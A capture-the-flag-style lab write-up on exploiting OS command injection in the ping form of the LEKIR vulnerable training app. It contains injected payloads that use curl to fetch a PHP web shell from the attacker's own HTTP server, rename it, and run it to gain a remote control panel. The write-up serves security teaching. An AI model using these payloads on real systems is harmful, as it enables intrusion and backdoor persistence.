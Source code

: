 ```yaml
---
description: OS Command Injection for Backdoor Exploiting
hidden: true
---
```


# Backdoor Exploiting

In this writeup, we will be demonstrating the use of implementing a backdoor inside the LEKIR vulnerable web app

After running the LEKIR Docker container and accessing it through the browser, navigate to the OS command injection category at Low level

<figure><img src="../.gitbook/assets/img1 (1).png" alt=""><figcaption><p>Figure 1</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (402).png" alt=""><figcaption></figcaption></figure>

## 1st Step: Identfying Vulnerabilities

***

Input any valid IP. Let's try Google's

<figure><img src="../.gitbook/assets/image (404).png" alt=""><figcaption></figcaption></figure>

Seems to work like a normal ping service should

<figure><img src="../.gitbook/assets/image (405).png" alt=""><figcaption></figcaption></figure>

Now we get to the fun part, Payloads. Just try out any one in the list

<figure><img src="../.gitbook/assets/img5.png" alt=""><figcaption><p>Figure 5</p></figcaption></figure>

As you can see, we succeded in listing the contents in the current directory using the && operator

<figure><img src="../.gitbook/assets/image (407).png" alt=""><figcaption></figcaption></figure>

## 2nd Step: Exploiting Vulnerabilities

***

Since this web app uses PHP as its backend, we can just exploit it by using a PHP backdoor script. By default the backdoor script is already in our Kali Linux machine, we just need to get it on the vulnerable web app. You can find the script by using the `locate` command in the terminal

<figure><img src="../.gitbook/assets/img7 (1).png" alt=""><figcaption><p>Figure 7</p></figcaption></figure>

navigate to the appropriate directory of the script by using `cd /usr/share/webshells/php`

Now what we need to do is host a simple webserver to serve the script which is inside the current directory

We can launch a simple HTTP server using python by entering this command:

`python -m http.server 8008`

To see if the server was launched successfully. Go to the browser and enter 'localhost:8008'. It should show up like this:

<figure><img src="../.gitbook/assets/img8 (1).png" alt=""><figcaption><p>Figure 8</p></figcaption></figure>

Now that's done, there are 2 ways we can download / retrieve the backdoor script on the vulnerable web app now that it is on a webserver.

* **wget**

check if wget is installed in the vulnerable system by entering `wget -h`

<figure><img src="../.gitbook/assets/image (408).png" alt=""><figcaption></figcaption></figure>

Looks like wget is not installed, let's move on to the next method

* **curl**

like before, let's check if it is installed

<figure><img src="../.gitbook/assets/image (409).png" alt=""><figcaption></figcaption></figure>

Now we can begin downloading the backdoor script. Before that, go to the terminal where the python webserver is hosted. Copy the url which is the server's address and port. In my case it will look like this.

`http://0.0.0.0:8080/`

Another thing we need to add at the end of the url is the file we want to download. specify the name of the backdoor

`http://0.0.0.0:8080/php-backdoor.php`

Another thing we also need to change is the ip of the url, depending on how you deploy the LEKIR Framework, you need to identify the suitable interfaces to use. '0.0.0.0' means that the webserver is listening on all network interfaces. In my case, i will need to use the Docker interface since I deployed it using Docker

You can check the available interfaces using:

`ip a`

<figure><img src="../.gitbook/assets/img11.png" alt=""><figcaption><p>Figure 11</p></figcaption></figure>

The current payload will look like this

<figure><img src="../.gitbook/assets/image (410).png" alt=""><figcaption></figcaption></figure>

Try running the command

<figure><img src="../.gitbook/assets/image (411).png" alt=""><figcaption></figcaption></figure>

If the output looked like this, it means that it did not work. Why?

Because as I have said earlier, PHP is a backend language. When we use curl or wget for that matter to request the file, the webserver will execute the PHP script and return the output such as HTML or JSON rather than the raw PHP source code itself.

What we can do to fix this issue is changing the file type of the script. Let's change it to a .txt file using this command:

`mv php-backdoor.php php-backdoor.txt`

Oh and also, do it in another tab of the terminal and don't `Ctrl + C` the python webserver hahah xD

<figure><img src="../.gitbook/assets/img14.png" alt=""><figcaption><p>Figure 14</p></figcaption></figure>

Change the payload

`8.8.8.8 && curl -O http://172.17.0.1:8080/php-backdoor.txt`

The `-O` flag is used to specify the output name of the file when it is downloaded, here I am saving it with its original name

<figure><img src="../.gitbook/assets/image (412).png" alt=""><figcaption></figcaption></figure>

Let's try and see if it worked

<figure><img src="../.gitbook/assets/image (413).png" alt=""><figcaption></figcaption></figure>

It didn't execute the file. Let's verify this by using `ls`

<figure><img src="../.gitbook/assets/img17.png" alt=""><figcaption><p>Figure 17</p></figcaption></figure>

Great!! it worked, our backdoor is downloaded. On to the next step.

## 3rd Step: Gaining Access

***

Now that the backdoor script is inside the vulnerable system, we can execute it. But wait...remember that we changed it from a .php file to a .txt file? .txt files are for reading only

We can simply resolve this issue by just changing it back to a .php file in the input field using the `mv` ('Everyone probably knew this ^\_^')

`8.8.8.8 && mv php-backdoor.txt php-backdoor.php`

verify it once again

<figure><img src="../.gitbook/assets/img18.png" alt=""><figcaption><p>Figure 18</p></figcaption></figure>

everything is set, now we can finally execute the backdoor. Navigate to the URL and enter the filename of the backdoor in the current directory

<figure><img src="../.gitbook/assets/img19.png" alt=""><figcaption><p>Figure 19</p></figcaption></figure>

Run it

<figure><img src="../.gitbook/assets/image (414).png" alt=""><figcaption></figcaption></figure>

What you are seeing is the web-based control panel of the backdoor, allowing you to interact with the server in various ways including command execution, file upload, directory browsing and database query execution

(In other words, the backdoor worked)

